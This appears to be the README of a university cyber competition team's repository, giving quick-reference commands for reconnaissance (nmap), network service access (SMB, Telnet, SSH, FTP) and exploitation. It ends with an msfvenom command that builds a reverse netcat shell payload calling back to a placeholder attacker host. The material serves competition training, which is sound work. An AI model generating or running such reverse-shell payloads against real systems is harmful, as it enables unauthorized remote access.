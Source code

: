 # A Public Repository for the UAT Cyber Competition Team
The folders represent various scripts and resources applicable to individual members or subject areas to support Blue or Red team operations.  The guidance below is for quick reference and will continue to evolve as we develop use-cases.
> ### Using any of the resources within this repository without proper permission by the target network owner will likely be illegal.  These resources are for educational purposes only. 

## RECONNAISSANCE
### Enumeration (Active Recon)
#### Network Enumeration
The first step in evaluating a target network is to identify open ports and active services.

NMAP Commands:
```
nmap [flag(s)] [target/file]
```


References:\
[Try Hack Me NMAP room](https://tryhackme.com/r/room/furthernmap)\
[NMAP Cheat Sheet All Commands & Flags Nathan House](https://www.stationx.net/nmap-cheat-sheet/)


## REMOTE ACCESS (Network Services)
[An overview of SMB, Telnet, SSH and FTP](https://chatgpt.com/share/3a9c17c6-db6d-48b6-ae75-a3d976bdfd4f)

SMB Commands:
```zsh
smbclient //[ip]/[share] -U [userName] -p [port]
```
Telnet Commands:
```zsh
telnet [ip] [port]
```
SSH Commands:
```zsh
ssh username@IP
```
FTP Commands:
```
ftp[ip]
```

References:\
[Try Hack Me Network Services room](https://tryhackme.com/r/room/networkservices)

## EXPLOITATION

Reverse Shell:\
Obtain your lhost from the terminal using ifconfig or ip a

Obtaining a reverse shell payload:
```zsh
msfvenom -p cmd/unix/reverse_netcat lhost=xx.xx.xx.xx lport=4444 R
```
